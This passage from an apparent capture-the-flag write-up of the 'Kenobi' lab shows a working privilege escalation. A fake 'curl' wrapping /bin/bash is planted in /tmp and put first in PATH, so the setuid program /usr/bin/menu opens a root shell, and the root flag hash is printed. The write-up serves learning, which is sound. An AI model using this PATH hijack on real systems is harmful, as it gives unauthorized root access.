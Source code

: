     .fini_array
    .jcr
    .dynamic
    .got.plt
    .data
    .bss
    .comment

    kenobi@kenobi:/tmp$ echo /bin/bash > curl
    kenobi@kenobi:/tmp$ cat curl
    /bin/bash
    kenobi@kenobi:/tmp$ chmod 777 curl
    kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
    kenobi@kenobi:/tmp$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :1
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

    root@kenobi:/tmp#

I decided to do it with bash instead of sh like the notes, and it still worked!

    root@kenobi:/tmp# cat /root/root.txt 
    177b3cd8562289f37382721c28381f02

and found the flag. Completed!
